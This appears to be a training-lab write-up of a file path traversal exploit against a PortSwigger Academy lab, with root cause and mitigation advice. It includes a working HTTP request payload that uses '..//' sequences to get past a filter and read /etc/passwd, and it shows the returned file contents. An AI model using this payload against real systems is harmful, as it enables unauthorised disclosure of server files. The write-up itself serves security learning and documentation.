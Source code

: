 # Lab Report: File Path Traversal (Simple Case)

## Overview
This lab demonstrates a **File Path Traversal** vulnerability where user-supplied file path input is used to read files from the filesystem without proper validation or canonicalization.

The goal of this lab was to retrieve the contents of the `/etc/passwd` file.

---

## Steps to Exploitation

### 1. Initial Request
The application used a request parameter `filename` to fetch image files. Simple relative traversal such as `../../../../etc/passwd` was blocked or filtered.

### 2. Payload
A traversal payload using `..//` segments was used to bypass the filter:

```
GET /image?filename=..//..//../etc/passwd HTTP/2
Host: <LAB-ID>.web-security-academy.net
Cookie: session=<valid-session-cookie>
User-Agent: Mozilla/5.0
Accept: image/avif,image/webp,*/*
```

### 3. Server Response
The server returned the contents of `/etc/passwd`, proving successful exploitation:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

---

## Evidence

### Exploit Request and Response
![Exploit Request and Response](/images/path%20traversal,%20simple%20case1.jpg)

### Lab Solved Confirmation
![Lab Solved](/images/path%20traversal,%20simple%20case%20lab%20solved1.jpg)

---

## Result
- Retrieved sensitive system file: `/etc/passwd`  
- Confirmed path traversal vulnerability using `..//` traversal pattern  
- Lab status:  
  ✅ *"Congratulations, you solved the lab!"*

---

## Root Cause
- The application failed to canonicalize and validate file paths properly.  
- The filter did not account for alternate traversal encodings/patterns like `..//`, allowing traversal to succeed.

---

## Mitigation
1. **Use Whitelisting** – Restrict file access to specific directories and predefined filenames.  
2. **Canonicalization** – Normalize and canonicalize paths before validation to remove traversal attempts.  
3. **Avoid Direct File References** – Use indirect references (IDs) instead of filenames in user input.  
4. **Reject/Normalize Alternate Traversals** – Normalize encoded or non-standard traversal sequences before filtering.  
5. **Use Safe APIs** – Use APIs that perform proper path normalization and avoid manual string-based filtering.

---

## Skills Demonstrated
- Testing for path traversal vulnerabilities  
- Bypassing naive filters using alternate traversal patterns (`..//`)  
- Retrieving sensitive files from the server (`/etc/passwd`)  
- Documenting exploitation steps and capturing proof using Burp Suite

---

## References
- PortSwigger Academy: File path traversal, simple case  
- OWASP: Path Traversal

--- 

*End of report.*